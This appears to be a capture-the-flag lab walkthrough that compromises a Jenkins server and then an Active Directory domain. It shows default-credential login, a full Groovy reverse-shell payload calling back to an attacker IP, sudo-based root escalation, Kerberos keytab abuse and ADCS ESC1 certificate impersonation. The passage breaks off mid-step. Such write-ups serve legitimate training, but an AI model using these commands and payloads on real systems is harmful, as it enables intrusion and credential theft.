

# Anomaly

## Introduction

#### **Objective**

The core objective is to demonstrate the full impact of a successful network intrusion by achieving **Domain Administrator** privileges over the client's Active Directory environment. The test will simulate a motivated external attacker's progression from an initial foothold to complete administrative control.

#### **Scope**

The in-scope assets for this engagement include **two critical IP addresses**:

1. A hardened **Ubuntu Server** (Initial Foothold Target).
2. The primary **Domain Controller** (Final Privilege Escalation Target).

It is a critical finding that the **Domain Controller is running active Antivirus (AV) software**; therefore, this test will specifically involve techniques to **bypass or evade the installed AV** to successfully compromise the domain and demonstrate the potential for a full domain compromise.

### Architecture

There are two IP given

- **AnomalyDC (Domain Controller): `10.1.1.201`**
- **AnomalyUbuntu (Machine): `10.1.46.217`**

Based on the above info, the attack path should be:

- Compromise the user account of the machine
- With the machine account, collect loots
- bloodhound
- lateral and privilege escalation

### Modifying `/etc/hosts`

We will add the given IPs to `/etc/hosts`

```bash
# Domain Controller
10.1.1.201      dc01.anomaly.hsm      
# Machine
10.1.46.217     anomalyubuntu.hsm
```

## Port Scan

We will kickstart with a port scan in the Ubuntu Machine

```bash
└─$ rustscan -a anomalyubuntu.hsm --ulimit 5000 -- -A -oN nmap_anomalyubuntu.log
...
Discovered open port 8080/tcp on 10.1.46.217
Discovered open port 22/tcp on 10.1.46.217

PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 62 OpenSSH 9.6p1 Ubuntu 3ubuntu13.14 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 88:97:30:52:9c:49:5f:d5:1a:21:28:ba:76:12:ec:9e (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBH/O9Vgo2QiAxzAd3xH4VRkjkrtSadxOTpYwv6MNBPn73hOW/PVbkKrdxQH6BrII2n6lBfntDG8fzvZXAv0rwgk=
|   256 a9:fa:03:71:5a:b2:f8:1e:41:0f:17:60:ca:07:29:a2 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIFi9KMWUGsURsM4S1JHrPEmIuHwk/bQ/X9P8kqrPFuUo
8080/tcp open  http    syn-ack ttl 62 Jetty 10.0.20
|_http-favicon: Unknown favicon MD5: 23E8C7BD78E8CD826C5A6073B15068B1
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Jetty(10.0.20)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X
OS CPE: cpe:/o:linux:linux_kernel:4.15
OS details: Linux 4.15
```

There are only two open ports, they are:

- Port 22: SSH (OpenSSH 9.6p1)
- Port 8080: HTTP (Jetty 10.0.20)

## Jenkins (Port 8080)

The main page is the Jenkins login page



There is a `robots.txt`, with a comment mentioning build links.

```bash
# we don't want robots to click "build" links
User-agent: *
Disallow: /
```

I first search for [CVE](https://www.cybersecurity-help.cz/vdb/soft/eclipse/jetty/10.0.20/) on Jetty 10.0.20, but it seems the effect of CVEs are relatively low, and it can’t help us further.

Then I tried some common credentials, and found that `admin:admin` were able to get us in.


## Jenkins Dashboard

Now we are in. I play around for a bit and found the following:

- We can upload plugins in Advanced settings and only allow `.hpi` and `.jpi` files.
    
    
    
- There is a script Console inside Manage Jenkins
    
    
    
- Another Script Console inside build-in node
    
    
    

## Reverse Shell

In build-in node’s Script Console, I was able to execute `whoami`, and it is running as jenkins.


We can open up our `nc` listener (I choose port 1234 as the listener port), then enter a [Groovy reverse shell payload](https://www.revshells.com/) in the console. 

```bash
String host="10.200.69.23";int port=1234;String cmd="/bin/bash";Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

Using the reverse shell, we learn that we are in `/var/lib/jenkins`, and now we need to escalate our privileges.

```powershell
jenkins@ip-10-1-46-217:~$ pwd
/var/lib/jenkins
```

## Privilege Escalation

I looked around the files in the current directory, and saw nothing that can help me go further.

```bash
jenkins@ip-10-1-46-217:~$ pwd
/var/lib/jenkins
jenkins@ip-10-1-46-217:~$ ls -la
total 128
drwxr-xr-x 13 jenkins jenkins  4096 Jul 12 23:07 .
drwxr-xr-x 49 root    root     4096 Sep 21  2025 ..
-rw-------  1 jenkins jenkins  1008 Jul  9 14:50 .bash_history
drwxr-xr-x  3 jenkins jenkins  4096 Sep 21  2025 .cache
drwxr-xr-x  3 jenkins jenkins  4096 Sep 21  2025 .java
-rw-r--r--  1 jenkins jenkins     0 Jul 12 23:07 .lastStarted
-rw-r--r--  1 jenkins jenkins     3 Jul  9 14:22 .owner
-rw-r--r--  1 jenkins jenkins  1832 Jul 12 23:07 config.xml
-rw-r--r--  1 jenkins jenkins   156 Jul 12 23:07 hudson.model.UpdateCenter.xml
-rw-------  1 jenkins jenkins  1680 Sep 21  2025 identity.key.enc
drwxr-xr-x  2 root    root     4096 Sep 21  2025 init.groovy.d
-rw-r--r--  1 jenkins jenkins  1693 Sep 21  2025 jenkins.install.InstallUtil.installingPlugins
-rw-r--r--  1 jenkins jenkins     7 Jul 12 23:07 jenkins.install.InstallUtil.lastExecVersion
-rw-r--r--  1 jenkins jenkins     7 Sep 21  2025 jenkins.install.UpgradeWizard.state
-rw-r--r--  1 jenkins jenkins   182 Sep 21  2025 jenkins.model.JenkinsLocationConfiguration.xml
-rw-r--r--  1 jenkins jenkins   169 Jul  9 05:52 jenkins.security.QueueItemAuthenticatorConfiguration.xml
-rw-r--r--  1 jenkins jenkins   162 Jul  9 05:52 jenkins.security.UpdateSiteWarningsConfiguration.xml
-rw-r--r--  1 jenkins jenkins   357 Jul  9 05:52 jenkins.security.apitoken.ApiTokenPropertyConfiguration.xml
-rw-r--r--  1 jenkins jenkins   171 Sep 21  2025 jenkins.telemetry.Correlator.xml
drwxr-xr-x  3 jenkins jenkins  4096 Jul  8 00:30 jobs
drwxr-xr-x  3 jenkins jenkins  4096 Sep 21  2025 logs
-rw-r--r--  1 jenkins jenkins  1037 Jul 12 23:07 nodeMonitors.xml
drwxr-xr-x 90 jenkins jenkins 12288 Sep 21  2025 plugins
-rw-r--r--  1 jenkins jenkins   258 Jul 12 14:11 queue.xml.bak
-rw-r--r--  1 jenkins jenkins   336 Jul  9 05:52 scriptApproval.xml
-rw-r--r--  1 jenkins jenkins    64 Sep 21  2025 secret.key
-rw-r--r--  1 jenkins jenkins     0 Sep 21  2025 secret.key.not-so-secret
drwx------  2 jenkins jenkins  4096 Sep 21  2025 secrets
drwxr-xr-x  2 jenkins jenkins  4096 Sep 21  2025 updates
drwxr-xr-x  2 jenkins jenkins  4096 Sep 21  2025 userContent
drwxr-xr-x  3 jenkins jenkins  4096 Sep 21  2025 users
drwxr-xr-x  3 jenkins jenkins  4096 Sep 21  2025 workspace
```

Checking our `sudo` privileges, we found that we can use `router_config`

```bash
jenkins@ip-10-1-46-217:~$ sudo -l
Matching Defaults entries for jenkins on ip-10-1-46-217:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User jenkins may run the following commands on ip-10-1-46-217:
    (ALL) NOPASSWD: /usr/bin/router_config
```

I transfer the binary back to my attacker machine. Using `strings` to inspect, I know that it is designed to apply a configuration file.

```bash
└─$ strings router_config 
...
Welcome to Router Configuration Utility v1.2
Usage: %s <config_file>
Applying configuration...                                                                                                                                                                                                                   
echo Applying config from %s; %s                                                                                                                                                                                                            
Configuration applied successfully! 
...                                                                                                                                                                                                                                
```

But when we place a command, it will execute it as root.

```bash
jenkins@ip-10-1-46-217:~$ sudo /usr/bin/router_config whoami
Welcome to Router Configuration Utility v1.2
Applying configuration...
Applying config from whoami
root
Configuration applied successfully!
```

With this in mind, we can easily open a root Bash shell and get the user flag

```bash
jenkins@ip-10-1-46-217:~$ sudo /usr/bin/router_config /bin/bash
Welcome to Router Configuration Utility v1.2
Applying configuration...
Applying config from /bin/bash
root@ip-10-1-46-217:/var/lib/jenkins# id
uid=0(root) gid=0(root) groups=0(root)
root@ip-10-1-46-217:/var/lib/jenkins# cd /root
root@ip-10-1-46-217:~# ls
router_config.c  snap  user.txt
```

With the Ubuntu machine having root access, we now need to compromise the DC somehow. We might need a pair of credentials to break into the AD environment.

But before we begin hopping, we can enable SSH by adding our public key to `authorized_keys` so we can reconnect to the machine with a stable connection.

```bash
└─$ ls id_rsa*                                                                                                                                                                                                                              
id_rsa  id_rsa.pub

└─$ ssh root@anomalyubuntu.hsm -i id_rsa                                                                                                                                                                                                    
Welcome to Ubuntu 24.04.3 LTS (GNU/Linux 6.14.0-1014-aws x86_64)

...

root@ip-10-1-46-217:~# 

```

## Domain Controller Port Scan

To gather more info on the DC, I run a simple port scan.

```bash
└─$ rustscan -a dc01.anomaly.hsm --ulimit 5000 -- -A -oN nmap_dc.log                                                                                                                                                                       
...
Open 10.1.1.201:53
Open 10.1.1.201:80
Open 10.1.1.201:88
Open 10.1.1.201:135
Open 10.1.1.201:139
Open 10.1.1.201:389
Open 10.1.1.201:445
Open 10.1.1.201:464
Open 10.1.1.201:593
Open 10.1.1.201:636
Open 10.1.1.201:3269
Open 10.1.1.201:3268
Open 10.1.1.201:3389
Open 10.1.1.201:9389

...

PORT     STATE    SERVICE          REASON      VERSION
53/tcp   filtered domain           no-response
80/tcp   filtered http             no-response
88/tcp   filtered kerberos-sec     no-response
135/tcp  filtered msrpc            no-response
139/tcp  filtered netbios-ssn      no-response
389/tcp  filtered ldap             no-response
445/tcp  filtered microsoft-ds     no-response
464/tcp  filtered kpasswd5         no-response
593/tcp  filtered http-rpc-epmap   no-response
636/tcp  filtered ldapssl          no-response
3268/tcp filtered globalcatLDAP    no-response
3269/tcp filtered globalcatLDAPssl no-response
3389/tcp filtered ms-wbt-server    no-response
9389/tcp filtered adws             no-response
```

There are no public SMB shares available

```bash
└─$ smbclient -L dc01.anomaly.hsm -N
Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to dc01.anomaly.hsm failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available

```

## Keytab File Exploitation

After a long time, I still have no clues on how to break in. So I go alongside with [Tyler’s walkthrough](https://youtu.be/YZBQ626dpkA?si=qnnSBRblQ91wVosX)

Inside the `/etc` directory, there are `krb5.conf` and `krb5.keytab`

```bash
root@ip-10-1-46-217:/etc# ls /etc 

krb5.conf        
krb5.keytab
```

According to [Microsoft]([https://learn.microsoft.com/th-th/sql/linux/security/authentication/understand-active-directory?view=sql-server-2017#what-is-a-keytab-file](https://learn.microsoft.com/th-th/sql/linux/security/authentication/understand-active-directory?view=sql-server-2017#what-is-a-keytab-file)):

- A keytab file is a cryptographic file of a service account that can be used to authenticate to the network.
- `krb5.conf` is the configuration input for Kerberos

The following shows the `krb5.conf` file found in the Ubuntu Machine

```
[libdefaults]

 default_realm = ANOMALY.HSM

 dns_lookup_realm = true

 dns_lookup_kdc = true

[realms]

 ANOMALY.HSM = {

  kdc = Anomaly-DC.anomaly.hsm

  admin_server = Anomaly-DC.anomaly.hsm

 }

[domain_realm]

 .anomaly.hsm = ANOMALY.HSM

 anomaly.hsm = ANOMALY.HSM

```

And for the keytab, despite being a cryptographic file, we can see able to see some plaintext information

```bash
root@ip-10-1-46-217:/tmp# cat /etc/krb5.keytab 
J
 ANOMALY.HSM
            Brandon_Boyd �uLR��D��F���+�qoW�&2\▒�N���Rroot@ip-10-1-46-217:/tmp# file /etc/krb5.keytab
/etc/krb5.keytab: Kerberos Keytab file, realm=ANOMALY.HSM, principal=Brandon_Boyd/, type=65536, date=Thu Jan  1 00:00:00 1970, kvno=18

```

### Modify Configuration file

To kickstart, we need to edit our own `krb5.conf`

```
[libdefaults]

        default_realm = ANOMALY.HSM

        dns_lookup_realm = true

        dns_lookup_kdc = true

...

        ANOMALY.HSM = {
                kdc = Anomaly-DC.anomaly.hsm
                admin_server = Anomaly-DC.anomaly.hsm
 }
 
...

[domain_realm]
...
        #hacksmarter
         .anomaly.hsm = ANOMALY.HSM
        anomaly.hsm = ANOMALY.HSM
```

### KeyTabExtract

We can also try to extract hashes and learn more info by using [KeyTabExtract](https://github.com/sosdave/KeyTabExtract)

```bash
└─$ python keytabextract.py krb5.keytab 
[!] No RC4-HMAC located. Unable to extract NTLM hashes.
[*] AES256-CTS-HMAC-SHA1 key found. Will attempt hash extraction.
[!] Unable to identify any AES128-CTS-HMAC-SHA1 hashes.
[+] Keytab File successfully imported.
        REALM : ANOMALY.HSM
        SERVICE PRINCIPAL : Brandon_Boyd/
        AES-256 HASH : f9754c5288b844eb86054695b2c12b93716f57c41d26325c1a994e12bbbeff52
```

unfortunately, no NTLM hashes are found.

### Import Keytab File to Kinit

To proceed, we can then import the keytab file to `kinit`.

`kinit` is a utility for obtaining and caching a Kerberos Ticket Granting Ticket (TGT). We can use the `-k` flag and the `-t` flag to specify the file, which is explained below:

```bash
-k [-i | -t keytab_file]
              requests  a  ticket,  obtained  from a key in the local host's keytab.  The location of the keytab may be specified with the -t keytab_file option, or with the -i option to specify the use of the default client
              keytab; otherwise the default keytab will be used.  By default, a host ticket for the local host is requested, but any principal may be specified.  On a KDC, the special keytab location KDB: can be used to  in‐
              dicate that kinit should open the KDC database and look up the key directly.  This permits an administrator to obtain tickets as any principal that supports authentication based on the key.

```

Execute the kinit like the following

```bash
└─$ kinit Brandon_Boyd@ANOMALY.HSM -kt krb5.keytab
```

The command should give no output. And when you type `klist`, you will see there is a ticket cache generated.

```bash
                                                                                                                                                                           
└─$ klist                                                                                                                                                                                                                                   
Ticket cache: FILE:/tmp/krb5cc_1000
Default principal: Brandon_Boyd@ANOMALY.HSM

Valid starting       Expires              Service principal
2026-07-19T21:05:43  2026-07-20T07:05:43  krbtgt/ANOMALY.HSM@ANOMALY.HSM
        renew until 2026-07-20T21:05:42

```

To tell where is the ticket cache globally, we can set up the  `KRB5CCNAME` environment variable

```bash
└─$ export KRB5CCNAME=/tmp/krb5cc_1000 
```

In case the ticket is expired, we can use `kdestroy` to remove the cache and do it again

```bash
└─$ kdestroy

└─$ klist
klist: No credentials cache found (filename: /tmp/krb5cc_1000)

```

## NXC

Now, we can finally use the `-k` flag in nxc with the `--use-kcache` option

```bash
└─$ nxc ldap anomaly.hsm -u Brandon_Boyd -k --use-kcache --verbose
[08:35:38] INFO     Socket info: host=anomaly.hsm, hostname=anomaly.hsm, kerberos=True, ipv6=False, link-local ipv6=False                                                                                                  connection.py:177
           INFO     Connecting to ldap://anomaly.hsm with no baseDN                                                                                                                                                              ldap.py:109
LDAP        anomaly.hsm     389    ANOMALY-DC       [*] Windows 11 / Server 2025 Build 26100 (name:ANOMALY-DC) (domain:ANOMALY.HSM) (signing:Enforced) (channel binding:When Supported) 
[08:35:43] INFO     Connecting to ldap://Anomaly-DC.anomaly.hsm - DC=anomaly,DC=hsm - anomaly.hsm [1]                                                                                                                            ldap.py:333
LDAP        anomaly.hsm     389    ANOMALY-DC       [+] ANOMALY.HSM\Brandon_Boyd from ccache 
[08:35:45] INFO     Successfully authenticated using Kerberos cache                                                                                                                                                        connection.py:562
```

Notice that Bloodhound requires a valid username and a password to gather loots, which we still need the password

```bash
─$ nxc ldap anomaly.hsm -u Brandon_Boyd -k --use-kcache --bloodhound --collection all --dns-server 10.1.1.201
LDAP        anomaly.hsm     389    ANOMALY-DC       [*] Windows 11 / Server 2025 Build 26100 (name:ANOMALY-DC) (domain:ANOMALY.HSM) (signing:Enforced) (channel binding:When Supported) 
LDAP        anomaly.hsm     389    ANOMALY-DC       [+] ANOMALY.HSM\Brandon_Boyd from ccache 
LDAP        anomaly.hsm     389    ANOMALY-DC       Resolved collection methods: acl, adcs, container, dcom, group, localadmin, loggedon, objectprops, psremote, rdp, session, trusts
LDAP        anomaly.hsm     389    ANOMALY-DC       Excluded collection methods: 
LDAP        anomaly.hsm     389    ANOMALY-DC       Using kerberos auth without ccache, getting TGT
LDAP        anomaly.hsm     389    ANOMALY-DC       Using kerberos auth from ccache
LDAP        anomaly.hsm     389    ANOMALY-DC       [-] BloodHound collection failed: LDAPUnknownAuthenticationMethodError - NTLM needs domain\username and a password
```

The password can be found by enumerating the users, which I never know only before I watch the walkthrough 

```bash
└─$ nxc ldap anomaly.hsm -u Brandon_Boyd -k --use-kcache --users --verbose
[08:39:10] INFO     Socket info: host=anomaly.hsm, hostname=anomaly.hsm, kerberos=True, ipv6=False, link-local ipv6=False                                                                                                  connection.py:177
           INFO     Connecting to ldap://anomaly.hsm with no baseDN                                                                                                                                                              ldap.py:109
LDAP        anomaly.hsm     389    ANOMALY-DC       [*] Windows 11 / Server 2025 Build 26100 (name:ANOMALY-DC) (domain:ANOMALY.HSM) (signing:Enforced) (channel binding:When Supported) 
[08:39:14] INFO     Connecting to ldap://Anomaly-DC.anomaly.hsm - DC=anomaly,DC=hsm - anomaly.hsm [1]                                                                                                                            ldap.py:333
LDAP        anomaly.hsm     389    ANOMALY-DC       [+] ANOMALY.HSM\Brandon_Boyd from ccache 
[08:39:16] INFO     Successfully authenticated using Kerberos cache                                                                                                                                                        connection.py:562
LDAP        anomaly.hsm     389    ANOMALY-DC       [*] Enumerated 5 domain users: ANOMALY.HSM
LDAP        anomaly.hsm     389    ANOMALY-DC       -Username-                    -Last PW Set-       -BadPW-  -Description-                                               
LDAP        anomaly.hsm     389    ANOMALY-DC       Administrator                 2025-09-17 20:01:03 0        Built-in account for administering the computer/domain      
LDAP        anomaly.hsm     389    ANOMALY-DC       Guest                         <never>             0        Built-in account for guest access to the computer/domain    
LDAP        anomaly.hsm     389    ANOMALY-DC       krbtgt                        2025-09-21 19:54:56 0        Key Distribution Center Service Account                     
LDAP        anomaly.hsm     389    ANOMALY-DC       Brandon_Boyd                  2025-11-13 04:30:05 2        3edc4rfv#EDC$RFV                                            
LDAP        anomaly.hsm     389    ANOMALY-DC       anna_molly                    2025-11-13 04:29:16 0           
```

Now we gather a pair of credentials:

```bash
Brandon_Boy:3edc4rfv#EDC$RFV
```

We can finally use password authentication

```bash
└─$ nxc ldap anomaly.hsm -u brandon_boyd -p '3edc4rfv#EDC$RFV'
LDAP        10.1.1.201      389    ANOMALY-DC       [*] Windows 11 / Server 2025 Build 26100 (name:ANOMALY-DC) (domain:anomaly.hsm) (signing:Enforced) (channel binding:When Supported) 
LDAP        10.1.1.201      389    ANOMALY-DC       [+] anomaly.hsm\brandon_boyd:3edc4rfv#EDC$RFV 

```

That means we can finally gather the BloodHound loots

```
└─$ nxc ldap anomaly.hsm -u brandon_boyd -p '3edc4rfv#EDC$RFV' --bloodhound --collection All --dns-server 10.1.1.201
LDAP        10.1.1.201      389    ANOMALY-DC       [*] Windows 11 / Server 2025 Build 26100 (name:ANOMALY-DC) (domain:anomaly.hsm) (signing:Enforced) (channel binding:When Supported) 
LDAP        10.1.1.201      389    ANOMALY-DC       [+] anomaly.hsm\brandon_boyd:3edc4rfv#EDC$RFV 
LDAP        10.1.1.201      389    ANOMALY-DC       Resolved collection methods: acl, adcs, container, dcom, group, localadmin, loggedon, objectprops, psremote, rdp, session, trusts
LDAP        10.1.1.201      389    ANOMALY-DC       Excluded collection methods: 
LDAP        10.1.1.201      389    ANOMALY-DC       Bloodhound data collection completed in 0M 51S
LDAP        10.1.1.201      389    ANOMALY-DC       Collecting ADCS data (CertiHound)...
LDAP        10.1.1.201      389    ANOMALY-DC       Found 34 certificate templates
LDAP        10.1.1.201      389    ANOMALY-DC       Found 1 Enterprise CAs
LDAP        10.1.1.201      389    ANOMALY-DC       Compressing output into /home/kali/.nxc/logs/ANOMALY-DC_10.1.1.201_2026-07-19_211225_bloodhound.zip

```

## BloodHound

We can first take a look at the `brandon_boyd` Account we have compromised


When I import the zip into BloodHound, I found the following:

1. Exploitable Certificate Templates? 


It seems there are some Certificate Templates waiting for me to exploit, but I have never worked with Active Directory Certificate Service (ADCS) before.

1. Powerful `anna_molly` user


Sadly we do not have a direct attack path.

## Active Directory Certificate Service (ADCS)

I read this [Vaadata]([https://www.vaadata.com/en/blog/understanding-active-directory-certificate-services-ad-cs/](https://www.vaadata.com/en/blog/understanding-active-directory-certificate-services-ad-cs/)) article explaining ADCS holistically. Recommend everyone to take a look.

ADCS, as the name suggests, manages everything related to public key encryption, including Certificates and signatures.

A valid certificate can prove the identity of an individual given that it is signed with the private key. Others can verify the authenticity with the public key.

To speed up the signing process, we can use certificate templates to act as a blue print. Not only can we speed up and automate the entire process, but we can also standardize the generated certificates.

However, wrong configurations create vulnerabilities and attack surfaces for threat actors. The technique is called as [Enterprise Subordinate CA abuses (ESC)](https://www.vaadata.com/en/blog/ad-cs-security-understanding-and-exploiting-esc-techniques/#aioseo-understanding-the-vulnerability).

## Certificate Template Information Gathering

To begin, we can use `certipy-ad` with the `-vulnerable` and `-enable` flags to ensure the template is in-use and exploitable

```
─$ certipy-ad find -u brandon_boyd -p '3edc4rfv#EDC$RFV' -dc-ip 10.1.1.201 -vulnerable -enable                                                                                                                                             
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Finding issuance policies
[*] Found 15 issuance policies
[*] Found 0 OIDs linked to templates
[*] Retrieving CA configuration for 'anomaly-ANOMALY-DC-CA-2' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Successfully retrieved CA configuration for 'anomaly-ANOMALY-DC-CA-2'
[*] Checking web enrollment for CA 'anomaly-ANOMALY-DC-CA-2' @ 'Anomaly-DC.anomaly.hsm'
[!] Error checking web enrollment: timed out
[!] Use -debug to print a stacktrace
[*] Saving text output to '20260719221456_Certipy.txt'
[*] Wrote text output to '20260719221456_Certipy.txt'
[*] Saving JSON output to '20260719221456_Certipy.json'
[*] Wrote JSON output to '20260719221456_Certipy.json'
```

The result will be saved into the JSON file. In one of the entries (CertAdmin), we saw there is a vulnerabilities section.

```
Certificate Templates
  0
    Template Name                       : CertAdmin
    Display Name                        : CertAdmin
    Certificate Authorities             : anomaly-ANOMALY-DC-CA-2
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Enrollment Flag                     : IncludeSymmetricAlgorithms
                                          PublishToDs
    Private Key Flag                    : ExportableKey
    Extended Key Usage                  : Client Authentication
                                          Secure Email
                                          Encrypting File System
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Schema Version                      : 2
    Validity Period                     : 99 years
    Renewal Period                      : 650430 hours
    Minimum RSA Key Length              : 2048
    Template Created                    : 2025-09-21T17:57:59+00:00
    Template Last Modified              : 2025-09-21T17:58:00+00:00
    Permissions
      Enrollment Permissions
        Enrollment Rights               : ANOMALY.HSM\Domain Admins
                                          ANOMALY.HSM\Enterprise Admins
      Object Control Permissions
        Owner                           : ANOMALY.HSM\Administrator
        Full Control Principals         : ANOMALY.HSM\Domain Admins
                                          ANOMALY.HSM\Enterprise Admins
                                          ANOMALY.HSM\Domain Computers
        Write Owner Principals          : ANOMALY.HSM\Domain Admins
                                          ANOMALY.HSM\Enterprise Admins
                                          ANOMALY.HSM\Domain Computers
        Write Dacl Principals           : ANOMALY.HSM\Domain Admins
                                          ANOMALY.HSM\Enterprise Admins
                                          ANOMALY.HSM\Domain Computers
        Write Property Enroll           : ANOMALY.HSM\Domain Admins
                                          ANOMALY.HSM\Enterprise Admins
    [+] User Enrollable Principals      : ANOMALY.HSM\Domain Computers
    [+] User ACL Principals             : ANOMALY.HSM\Domain Computers
    [!] Vulnerabilities
      ESC1                              : Enrollee supplies subject and template allows client authentication.
      ESC4                              : User has dangerous permissions.
```

Referencing to the Vaadata article, we know:

- ESC1: Identity Theft
- ESC4: With Great Power Comes Great Responsibility

Let’s take a look at ESC1 first, there are 3 requirements we need to satisfy for the attack to work:

1. User must able to enroll the template
    
    Looking at the result, we can see we are not inside this group, but Domain Computers appears frequently in the permissions.
    
    ```json
    "Enrollment Permissions": {
              "Enrollment Rights": [
                "ANOMALY.HSM\\Domain Admins",
                "ANOMALY.HSM\\Enterprise Admins"
              ]
            },
            "Object Control Permissions": {
              "Owner": "ANOMALY.HSM\\Administrator",
              "Full Control Principals": [
                "ANOMALY.HSM\\Domain Admins",
                "ANOMALY.HSM\\Enterprise Admins",
                "ANOMALY.HSM\\Domain Computers"
              ],
              "Write Owner Principals": [
                "ANOMALY.HSM\\Domain Admins",
                "ANOMALY.HSM\\Enterprise Admins",
                "ANOMALY.HSM\\Domain Computers"
              ],
              "Write Dacl Principals": [
                "ANOMALY.HSM\\Domain Admins",
                "ANOMALY.HSM\\Enterprise Admins",
                "ANOMALY.HSM\\Domain Computers"
              ],
              "Write Property Enroll": [
                "ANOMALY.HSM\\Domain Admins",
                "ANOMALY.HSM\\Enterprise Admins"
              ]
            }
          },
          "[+] User Enrollable Principals": [
            "ANOMALY.HSM\\Domain Computers"
          ],
          "[+] User ACL Principals": [
            "ANOMALY.HSM\\Domain Computers"
          ],
          "[!] Vulnerabilities": {
            "ESC1": "Enrollee supplies subject and template allows client authentication.",
            "ESC4": "User has dangerous permissions."
          }
        }
    ```
    
2. The Extended Key Usage(EKU) should include Client Authentication
    
    We have it enabled
    
    ```json
    "Extended Key Usage": [
     "Client Authentication",
     "Secure Email",
     "Encrypting File System"
    ],
    ```
    
3. Certificate Name Flag should allows the user to define the SAN (EnrolleeSuppliesSubject)
    
    ```json
    Certificate Name Flag               : EnrolleeSuppliesSubject
    ```
    

For conditional 1, we can create our own machine account to exploit ESC1.

## ESC1 Exploitation

According to [HackTricks]([https://www.thehacker.recipes/ad/movement/builtins/machineaccountquota](https://www.thehacker.recipes/ad/movement/builtins/machineaccountquota)),  Machine Account Quota (MAQ) by default allow unprivileged users to attach up to 10 computers to an AD domain

```bash
└─$ nxc ldap 10.1.1.201 -d anomaly.hsm -u brandon_boyd -p '3edc4rfv#EDC$RFV' -M maq                                                                                                                                                         
LDAP        10.1.1.201      389    ANOMALY-DC       [*] Windows 11 / Server 2025 Build 26100 (name:ANOMALY-DC) (domain:anomaly.hsm) (signing:Enforced) (channel binding:When Supported) 
LDAP        10.1.1.201      389    ANOMALY-DC       [+] anomaly.hsm\brandon_boyd:3edc4rfv#EDC$RFV 
MAQ         10.1.1.201      389    ANOMALY-DC       [*] Getting the MachineAccountQuota
MAQ         10.1.1.201      389    ANOMALY-DC       MachineAccountQuota: 10
```

With the MAQ confirmed, we can use certipy to create an account.

```bash
└─$ certipy-ad account create -username "brandon_boyd"@"anomaly.hsm" -password '3edc4rfv#EDC$RFV' -dc-ip 10.1.1.201 -user 'computer123' -pass 'Computer123!' -dns 10.1.1.201                           
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Creating new account:
    sAMAccountName                      : computer123$
    unicodePwd                          : Computer123!
    userAccountControl                  : 4096
    servicePrincipalName                : HOST/computer123
                                          RestrictedKrbHost/computer123
    dnsHostName                         : computer123.anomaly.hsm
[*] Successfully created account 'computer123$' with password 'Computer123!'

```

After that, we can find generate a certificate representing the anna_molly User Principal Name (UPN)

```
└─$ certipy-ad req -u 'computer123$@anomaly.hsm' -p 'Computer123!' -dc-ip 10.1.1.201 -dns 10.1.1.201 -target "anomaly.hsm" -ca 'anomaly-ANOMALY-DC-CA-2' -template 'CertAdmin' -upn 'anna_molly@anomaly.hsm' 
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 27
[*] Successfully requested certificate
[*] Got certificate with multiple identities
    UPN: 'anna_molly@anomaly.hsm'
    DNS Host Name: '10.1.1.201'
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'anna_molly_10.pfx'
[*] Wrote certificate and private key to 'anna_molly_10.pfx'

```

Continue following the Vaadata, we can first extract the certificate (`-clcerts`) and without the keys (`-nokeys`) in the pfx file.

```bash
